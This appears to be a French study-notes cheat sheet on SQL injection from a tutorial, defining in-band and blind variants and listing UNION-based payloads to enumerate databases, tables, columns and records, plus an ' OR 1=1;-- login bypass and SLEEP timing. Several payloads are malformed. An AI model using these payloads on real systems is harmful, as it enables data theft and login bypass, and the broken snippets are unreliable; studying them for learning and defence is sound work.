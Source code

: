 # Injections SQL

## Qu'est-ce que les injections SQL ?
Ce sont des injections de code SQL à travers les données fournies par l'utilisateur.
## Qu'est-ce que le "In-Band SQLi" ?
C'est une méthode qui utilise le vulnérabilité pour récuperer toutes les informations de la base de données. 
## Qu'est-ce que le "Blind SQLi - Authentication Bypass" ?
C'est une tchnique utilisée pour contourner les systèmes d'authentification mais les resultats d'injections ne sont pas affichés à l'écran.
## Qu'est-ce que le "Blind SQLi - Boolean Based" ?
C'est une méthode qui utilise les réponses (2 posibilités true or false) que nous obtenons de nos injections SQL. 
## Qu'est-ce que le "Blind SQLi - Time Based" ?
Basée sur le temps, cette méthode utilise le temps mis lors l'exécution des inections SQL, sans pause signifie échec et pause signifie réussite.
## Qu'est-ce que le "Out-of-Band SQLi" ?

## Commandes
### Récupérer le nom de la base de données

```
UNION SELECT 1,2,3 database()
```

### Récupérer la liste des tables d'une base de données

```
 UNION SELECT * group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'BD_NAME'
```

### Récupérer la liste des colonnes d'une table

```
UNION SELECT * group_concat(column_name) FROM information_schema.columns WHERE table_name = 'TBL_NAME'
```

### Récupérer les valeurs des enregistrements d'une table

```
UNION SELECT 1,2,3 group_concat(COLONNE1,';',COLONNE1 SEPARATOR '
') FROM TBL_NAME
```

### By pass un formulaire de connexion

```
insérer ' OR 1=1;-- dans le champ mot de passe
```

### Trouver une table dans une base de données connue par essaie et erreur

```
UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'bdName' and table_name like 'a%';--
```

### Trouver les colonnes d'une table connue par essaie et erreur

```
UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bdName' and TABLE_NAME='tblName' and COLUMN_NAME like 'a%';
```

### Trouver un champ par essaie et erreur

```
UNION SELECT 1,2,3 from tblName where champ like 'a%
```

### Ajouter un sleep dans une requête.

```
SLEEP(time)
```

### Preuve que vous avez terminé le tutoriel :
